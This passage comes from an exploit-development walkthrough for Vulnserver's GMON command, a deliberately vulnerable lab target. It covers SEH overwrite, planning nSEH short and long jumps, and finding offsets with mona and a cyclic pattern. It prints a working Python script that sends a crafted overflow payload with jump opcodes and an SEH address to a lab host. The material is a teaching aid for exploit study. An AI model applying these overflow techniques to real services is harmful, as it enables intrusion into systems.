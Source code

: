 ```c
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ python3 overwrite-nseh.py 
```

Now we can see that in hexdump, after SEH values we could also store some junk values (from our padding) in the stack from our script

We can also use a small piece of shellcode in this region instead of egghunter to perform a long jump, back to our main shellcode (For that we have to change the short jump opcode to forward jump in nSEH)

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gmon-2-hexdump.png" style="width:60%">
</div>

Instead of that, we will use the same opcode in nSEH to perform backward short jump and lets do ```long jump``` from there to buffer data, instead of egg hunting

## Performing long jump

We could see that, our nSEH provides short jump

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gmon-2-eax.png" style="width:60%">
</div>

After taking one step after the short jump, lets check the registers to verify that we are in our stack data or not

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gmon-2-firststep.png">
</div>

It seems like, we are not in the right track to access the memory of the shellcode if placed

Lets use ```mona``` to find the offsets of all registers at this point to get some idea

Creating a pattern,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ msf-pattern_create -l 3549
<GENERATED PATTERN>
```

Creating a fuzzing script to locate offsets by overwriting nSEH and SEH,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ cat offset-stack.py 
import socket, sys
# to overwrite buffer and EBP
payload=b"<GENERATED PATTERN>"
# to overwrite nSEH
payload+=b"\xeb\xce"
payload+=b"\x90\x90"
# to overwrite SEH
payload+=b"\xb4\x10\x50\x62"
# padding
payload+=b"D"*(5000-len(payload))
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GMON /."+payload))
s.close()
```
